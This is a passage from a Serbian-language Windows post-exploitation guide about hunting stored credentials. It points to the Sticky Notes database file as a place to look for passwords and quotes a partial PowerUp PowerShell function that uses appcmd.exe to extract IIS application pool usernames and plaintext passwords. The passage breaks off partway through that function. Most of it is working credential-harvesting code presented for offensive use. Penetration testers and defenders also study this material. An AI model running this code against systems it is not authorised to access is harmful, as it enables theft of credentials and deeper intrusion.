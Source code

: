 Ljudi često koriste aplikaciju StickyNotes na Windows radnim stanicama da **sačuvaju lozinke** i druge informacije, ne shvatajući da je to baza podataka. Ovaj fajl se nalazi na putanji `C:\Users\<korisnik>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` i uvek je vredno pretražiti ga i pregledati.

### AppCmd.exe

**Imajte na umu da za oporavak lozinki iz AppCmd.exe morate biti Administrator i pokrenuti se sa visokim nivoom integriteta.**\
**AppCmd.exe** se nalazi u direktorijumu `%systemroot%\system32\inetsrv\`.\
Ako ovaj fajl postoji, moguće je da su neki **kredencijali** konfigurisani i mogu biti **oporavljeni**.

Ovaj kod je izvučen iz [**PowerUP**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1):

```bash
function Get-ApplicationHost {
$OrigError = $ErrorActionPreference
$ErrorActionPreference = "SilentlyContinue"

# Check if appcmd.exe exists
if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
# Create data table to house results
$DataTable = New-Object System.Data.DataTable

# Create and name columns in the data table
$Null = $DataTable.Columns.Add("user")
$Null = $DataTable.Columns.Add("pass")
$Null = $DataTable.Columns.Add("type")
$Null = $DataTable.Columns.Add("vdir")
$Null = $DataTable.Columns.Add("apppool")

# Get list of application pools
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {

# Get application pool name
$PoolName = $_

# Get username
$PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
$PoolUser = Invoke-Expression $PoolUserCmd

# Get password
$PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
$PoolPassword = Invoke-Expression $PoolPasswordCmd

# Check if credentials exists
if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
# Add credentials to database
$Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
}
}

# Get list of virtual directories
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

# Get Virtual Directory Name
$VdirName = $_

# Get username
```